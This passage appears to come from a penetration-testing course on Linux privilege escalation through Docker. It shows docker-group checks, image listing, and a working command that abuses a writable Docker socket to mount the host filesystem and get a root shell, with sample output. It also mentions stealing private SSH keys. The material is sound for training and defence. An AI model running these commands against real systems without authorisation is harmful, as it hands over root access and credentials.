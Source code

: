 From there, we can again try to grab the private SSH key and log in as root or as any other user on the system with a private SSH key in its folder.

#### Docker Group

To gain root privileges through Docker, the user we are logged in with must be in the `docker` group. This allows him to use and control the Docker daemon.

  Docker

```shell-session
docker-user@nix02:~$ id

uid=1000(docker-user) gid=1000(docker-user) groups=1000(docker-user),116(docker)
```

Alternatively, Docker may have SUID set, or we are in the Sudoers file, which permits us to run `docker` as root. All three options allow us to work with Docker to escalate our privileges.

Most hosts have a direct internet connection because the base images and containers must be downloaded. However, many hosts may be disconnected from the internet at night and outside working hours for security reasons. However, if these hosts are located in a network where, for example, a web server has to pass through, it can still be reached.

To see which images exist and which we can access, we can use the following command:

  Docker

```shell-session
docker-user@nix02:~$ docker image ls

REPOSITORY                           TAG                 IMAGE ID       CREATED         SIZE
ubuntu                               20.04               20fffa419e3a   2 days ago    72.8MB
```

#### Docker Socket

A case that can also occur is when the Docker socket is writable. Usually, this socket is located in `/var/run/docker.sock`. However, the location can understandably be different. Because basically, this can only be written by the root or docker group. If we act as a user, not in one of these two groups, and the Docker socket still has the privileges to be writable, then we can still use this case to escalate our privileges.

  Docker

```shell-session
docker-user@nix02:~$ docker -H unix:///var/run/docker.sock run -v /:/mnt --rm -it ubuntu chroot /mnt bash

root@ubuntu:~# ls -l

total 68
lrwxrwxrwx   1 root root     7 Apr 23  2020 bin -> usr/bin
drwxr-xr-x   4 root root  4096 Sep 22 11:34 boot
drwxr-xr-x   2 root root  4096 Oct  6  2021 cdrom
drwxr-xr-x  19 root root  3940 Oct 24 13:28 dev
drwxr-xr-x 100 root root  4096 Sep 22 13:27 etc
drwxr-xr-x   3 root root  4096 Sep 22 11:06 home
lrwxrwxrwx   1 root root     7 Apr 23  2020 lib -> usr/lib
lrwxrwxrwx   1 root root     9 Apr 23  2020 lib32 -> usr/lib32
lrwxrwxrwx   1 root root     9 Apr 23  2020 lib64 -> usr/lib64
lrwxrwxrwx   1 root root    10 Apr 23  2020 libx32 -> usr/libx32
drwx------   2 root root 16384 Oct  6  2021 lost+found
drwxr-xr-x   2 root root  4096 Oct 24 13:28 media
drwxr-xr-x   2 root root  4096 Apr 23  2020 mnt
drwxr-xr-x   2 root root  4096 Apr 23  2020 opt
dr-xr-xr-x 307 root root     0 Oct 24 13:28 proc
drwx------   6 root root  4096 Sep 26 21:11 root
drwxr-xr-x  28 root root   920 Oct 24 13:32 run
lrwxrwxrwx   1 root root     8 Apr 23  2020 sbin -> usr/sbin
```